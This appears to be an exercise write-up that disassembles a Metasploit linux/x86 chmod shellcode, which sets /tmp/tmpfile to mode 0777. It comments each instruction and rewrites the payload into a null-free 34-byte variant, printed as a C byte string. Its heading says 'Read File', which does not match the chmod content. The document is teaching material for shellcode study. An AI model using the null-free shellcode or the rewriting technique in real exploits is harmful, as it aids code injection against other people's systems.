 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a
0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.


## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code to get a better understanding of what is happening.

```x86asm
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                          
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500
; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()    
```

## Changes

The first change I made was to `cdq` and replaced it with an `xor ecx, ecx` to clear ecx's value that will be used later. I then `mul ecx` that will result in a 0 with a remainder of 0, thus clearing the `eax` and `edx` registers as well.

```x86asm
; cdq
xor ecx, ecx				; zero out ebx
mul ecx             ; zero out eax, and edx 
```

I then replace the push/pop with a `mov al` since eax was cleared in the previous `mul` command.


```x86asm
; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
; pop eax             ; int chmod(const char *pathname, mode_t mode);
mov al, 0xf
```

Then, instead of making a `call` instruction to push a pointer to the filename parameter to the stack, I will push the string to the stack directly. To do this, I will push `edx`, which was cleared in the previous `mul` statement and then push the string in reverse order. Then I move the stack pointer into `ebx` to be used as the parameter. 

```x86asm
; pop ebx             ; ptr to: [string] /tmp/tmpfile
push edx
push 0x656c6966         ; "elif"
push 0x706d742f         ; "pmt/"
push 0x706d742f         ; "pmt/"
mov ebx, esp
```

Since `ecx` was cleared in the original `xor` statement in the shellcode, I will set it's lower 2 bytes to `0x1ff` with a single move instruction and not worry about pushing/poping from the stack.

```x86asm
; push dword 0x1ff    ; 
; pop ecx             ; ecx = 0x1ff - OCT = 777
mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode
```

I also remove the next push/pop and just `mov al, 0x1` for the exit statement as `eax` should be `0x0` if the `chmod()` was executed successfully.

```x86asm
; push byte +0x1      
; pop eax
mov al, 0x1        ; eax should be 0x0 from chmod() return value
```



## Final code
```x86asm
global _start

section .text
_start:
    ; cdq
    xor ecx, ecx				; zero out ebx
    mul ecx             ; zero out eax, and edx    

    ; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
    ; pop eax             ; int chmod(const char *pathname, mode_t mode);
    mov al, 0xf

    ; pop ebx             ; ptr to: [string] /tmp/tmpfile
    push edx
    push 0x656c6966         ; "elif"
    push 0x706d742f         ; "pmt/"
    push 0x706d742f         ; "pmt/"
    mov ebx, esp

    ; push dword 0x1ff    ; 
    ; pop ecx             ; ecx = 0x1ff - OCT = 777
    mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode

    int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)

    ; push byte +0x1      
    ; pop eax
    mov al , 0x1        ; eax should be 0x0 from chmod() return value

    int 0x80            ; exit() 
```

## Shellcode

```c
"\x31\xc9\xf7\xe1\xb0\x0f\x52\x68\x66\x69\x6c\x65\x68\x2f\x74\x6d\x70\x68\x2f\x74\x6d\x70\x89\xe3\x66\xb9\xff\x01\xcd\x80\xb0\x01\xcd\x80"
```

## Conclusion

Metasploit payload length is 37 bytes with nulls.

My payload length is 34 bytes without nulls.
